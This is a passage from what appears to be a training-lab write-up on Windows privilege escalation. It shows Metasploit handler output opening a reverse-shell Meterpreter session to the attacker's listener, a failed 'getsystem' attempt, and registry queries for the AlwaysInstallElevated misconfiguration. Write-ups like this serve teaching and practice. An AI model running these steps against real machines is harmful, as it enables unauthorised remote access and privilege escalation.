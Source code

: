 ```
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.8.147.132     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.8.147.132:4444
[*] Sending stage (175174 bytes) to 10.10.111.63
[*] Meterpreter session 1 opened (10.8.147.132:4444 -> 10.10.111.63:49230) at 2021-05-08 09:44:21 +0200
```

we got shell!

```
meterpreter > getuid
Server username: TCM-PC\TCM
meterpreter > getsystem
[-] 2001: Operation failed: This function is not supported on this system. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
meterpreter >
```

## Always Installed Elevated

Open command prompt and type

```
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
```

From the output, notice that "AlwaysInstallElevated" value is 1.

In command prompt type

```
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
```

From the output, notice that "AlwaysInstallElevated" value is 1.

Powershell script Invoke-AllChecks is also capable of detect "AlwaysInstalledElevated"
